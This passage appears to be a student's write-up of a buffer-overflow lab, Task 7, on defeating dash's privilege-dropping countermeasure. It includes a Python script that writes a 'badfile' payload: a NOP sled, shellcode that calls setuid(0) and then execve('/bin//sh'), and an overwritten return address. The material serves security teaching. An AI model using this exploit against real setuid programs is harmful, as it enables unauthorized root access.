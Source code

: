 ![image](https://github.com/udayk01/Secure_Coding/assets/52235763/bb867e06-0724-46ca-8c7a-1ba4e4b24da6)

Here I have put the start  value as 100 and return address rbp.

# TASK-7

## Defeating dash’s Countermeasure

The dash shell in the Ubuntu OS drops privileges when it detects that the effective UID does not equal to the real UID.

We link to dash 

$ sudo ln -sf /bin/dash /bin/sh

Only the setuid version was able to get root acess.

Repeating the level 1 steps, using updated shellcode

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80"
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 400               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcab8 + 200          # Change this number 
offset = 112        # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```
